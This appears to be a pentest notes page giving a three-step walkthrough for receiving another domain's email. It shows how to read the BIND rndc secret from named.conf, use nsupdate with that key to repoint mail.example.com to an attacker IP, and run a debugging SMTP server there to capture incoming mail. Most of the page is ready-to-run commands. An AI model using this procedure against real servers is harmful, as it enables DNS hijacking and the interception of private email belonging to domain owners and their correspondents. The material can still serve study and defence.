 ```yaml
---
title: Receive Email as Another Address
description: With misconfigurations of target system, we might be able to impersonate some email address then receive sensitive email.
tags:
    - Email
    - Web
refs:
date: 2023-05-20
draft: false
---
```


## Exploit DNS Zone Misconfiguration & BIND Config

If target host has the domain for email e.g. “mail.example.com” and we can get BIND secret key, we can update

### 1. Get BIND Secret Key

We need to get the BIND key in the config file.

```bash
# /etc/bind/named.conf

key "rndc-key" {
    algorithm hmac-sha256;
    secret "zBatC828gunRa...bA=";
};
```

### 2. Update DNS Zone

After retrieving the BIND secret, update DNS zone to add the new record for receiving email, with subdomain and our ip address.

```bash
# -d: Debug mode
# -y: Set the literal TSIG (Transaction Signature) authentication key.
nsupdate -d -y hmac-sha256:rndc-key:zBatC828gunRa...bA= 
Creating key...
namefromtext
keycreate
# Enter target domain
> server example.com
# Enter the new record
# 86400: The TTL (Time-To-Live) for the DNS record. Set 86400 seconds (24 hours) here.
# IN: Internet
# A: A record
# 10.0.0.1: Set your local ip address
> update add mail.example.com 86400 IN A 10.0.0.1
> send
Reply from SOA query:

...

```

### 3. Start SMTP Server

In local machine, start SMTP server for debugging when receiving email with “mail.example.com” from others.

```bash
# -n: No setuid
# -c: Classname
sudo python3 -m smtpd -n -c DebuggingServer 10.0.0.1:25
```

When receiving email, we should see the output in the terminal.